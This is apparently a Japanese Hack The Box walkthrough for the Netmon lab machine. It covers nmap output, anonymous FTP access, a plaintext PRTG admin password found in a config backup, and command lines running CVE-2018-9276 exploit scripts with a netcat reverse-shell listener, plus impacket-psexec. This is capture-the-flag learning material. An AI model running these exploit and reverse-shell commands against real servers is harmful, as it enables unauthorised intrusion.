

# Netmon
https://app.hackthebox.com/machines/Netmon
Guided mode でプレイ。

## nmap
```
┌──(kali㉿kali)-[~]
└─$ nmap -Pn -T4 -A -v 10.10.10.152                               
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-28 03:06 EST
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 03:06
Completed NSE at 03:06, 0.00s elapsed
Initiating NSE at 03:06
Completed NSE at 03:06, 0.00s elapsed
Initiating NSE at 03:06
Completed NSE at 03:06, 0.00s elapsed
Initiating Parallel DNS resolution of 1 host. at 03:06
Completed Parallel DNS resolution of 1 host. at 03:06, 0.02s elapsed
Initiating Connect Scan at 03:06
Scanning 10.10.10.152 [1000 ports]
Discovered open port 21/tcp on 10.10.10.152
Discovered open port 80/tcp on 10.10.10.152
Discovered open port 445/tcp on 10.10.10.152
Discovered open port 135/tcp on 10.10.10.152
Discovered open port 139/tcp on 10.10.10.152
Increasing send delay for 10.10.10.152 from 0 to 5 due to max_successful_tryno increase to 5
Completed Connect Scan at 03:07, 23.92s elapsed (1000 total ports)
Initiating Service scan at 03:07
Scanning 5 services on 10.10.10.152
Completed Service scan at 03:07, 6.76s elapsed (5 services on 1 host)
NSE: Script scanning 10.10.10.152.
Initiating NSE at 03:07
NSE: [ftp-bounce] PORT response: 501 Server cannot accept argument.
Completed NSE at 03:07, 9.07s elapsed
Initiating NSE at 03:07
Completed NSE at 03:07, 1.30s elapsed
Initiating NSE at 03:07
Completed NSE at 03:07, 0.00s elapsed
Nmap scan report for 10.10.10.152
Host is up (0.18s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT     STATE    SERVICE      VERSION
21/tcp   open     ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-02-19  11:18PM                 1024 .rnd
| 02-25-19  09:15PM       <DIR>          inetpub
| 07-16-16  08:18AM       <DIR>          PerfLogs
| 02-25-19  09:56PM       <DIR>          Program Files
| 02-02-19  11:28PM       <DIR>          Program Files (x86)
| 01-26-25  01:49PM       <DIR>          Users
|_11-10-23  09:20AM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp   open     http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-favicon: Unknown favicon MD5: 36B3EF286FA4BEFBB797A0966B456479
|_http-trane-info: Problem with XML parsing of /evox/about
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-server-header: PRTG/18.1.37.13946
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
135/tcp  open     msrpc        Microsoft Windows RPC
139/tcp  open     netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open     microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
8084/tcp filtered websnp
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -16m14s, deviation: 0s, median: -16m14s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2025-01-28T07:51:06
|_  start_date: 2025-01-26T18:29:26
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

NSE: Script Post-scanning.
Initiating NSE at 03:07
Completed NSE at 03:07, 0.00s elapsed
Initiating NSE at 03:07
Completed NSE at 03:07, 0.00s elapsed
Initiating NSE at 03:07
Completed NSE at 03:07, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.42 seconds
```
どうやら ポート 80 でPaessler PRTG bandwidth monitorなるものが動いているらしい。
ブラウザでアクセスすると、以下のようなページが現れた。

## port80 password cracking
https://kb.paessler.com/en/topic/433-what-s-the-login-name-and-password-for-the-prtg-web-interface-how-do-i-change-it
によると、デフォルトでは
- Login Name: prtgadmin
- Password: prtgadmin
これをためしてみたがダメだった。

## port21 FTP Anonymous login
ftp-anon: Anonymous FTP login allowed (FTP code 230)
と書いてあるので、FTPで匿名ログインができるようだ。どのようなファイルが見られるか試してみる。
```
└─$ ftp 10.10.10.152
Connected to 10.10.10.152.
220 Microsoft FTP Service
Name (10.10.10.152:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> get Users/Public/Desktop/user.txt ./user.txt
local: ./user.txt remote: Users/Public/Desktop/user.txt
229 Entering Extended Passive Mode (|||64329|)
125 Data connection already open; Transfer starting.
100% |****************************************************************|    34        0.18 KiB/s    00:00 ETA
226 Transfer complete.
34 bytes received in 00:00 (0.17 KiB/s)
ftp> !cat user.txt
<<<user flag>>>
ftp> 
```

## root をとる
なんか PRTG Network Monitorあやしい。
Progam Files のなかとか ftpでいろいろしらべてみる。
https://www.reddit.com/r/sysadmin/comments/835dai/prtg_exposes_domain_accounts_and_passwords_in/
これとかあやしいけどな
PRTG Configuration.dat はどこですか
https://kb.paessler.com/en/topic/463-how-and-where-does-prtg-store-its-data
Microsoft Windows Server 2008 R2 なので %programdata%\Paessler\PRTG Network Monitor にあるはず
ftp://10.10.10.152/ProgramData/Paessler/PRTG Network Monitor/
にあった。（隠しファイルなのでlsとかだと永遠に出てこない）
https://github.com/yobabyte/decryptocollection
とかを使うまでもなく、PRTG Configuration.old.bak に生パスワードがあった。これはたぶんPRTG 17以下だとそういう形式の設定ファイルになっていたことが問題。
prtgadmin, PrTg@dmin2018らしい。
この通りに入れてもウェブサイトにはログインできない。
ここでちょっとおてあげし、他人のWriteupを見る
PrTg@dmin2019らしい。（なるほどこういう推測方法があるんだなあ）
~~ちなみになぜかこれを使ってもログインできませんでした。バグかな？~~ サーバーのリスタートで解決
それとは関係なく、ウェブサイトの一番下からPRTG　18.1.37.13946　を使っていることがわかる。
https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/windows/http/prtg_authenticated_rce.md
show options

VPNをTCPにしないとだめかも？
なんかだめだなあ
https://github.com/mats-codes/CVE-2018-9276/tree/master
でもなんかできない。
```
nc -nvlp 4444
python3 CVE-2018-9276_py3.py -i 10.10.10.152 -p 80 --lhost 10.10.14.17 --lport 4444 --user prtgadmin --password PrTg@dmin2019
```
https://github.com/A1vinSmith/CVE-2018-9276
```
python ./exploit.py -i 10.10.10.152 -p 80 --lhost 10.10.14.17 --lport 445 --user prtgadmin --password PrTg@dmin2019

```
これもだめだ
全部だめじゃん
結局いかのとおりにやってできた。

https://hipotermia.pw/htb/netmon
https://www.exploit-db.com/exploits/46527
```
impacket-psexec  pentest@10.10.10.152
```

一番詳しそうなwriteup
https://blog.shivamsaraswat.com/netmon-htb/


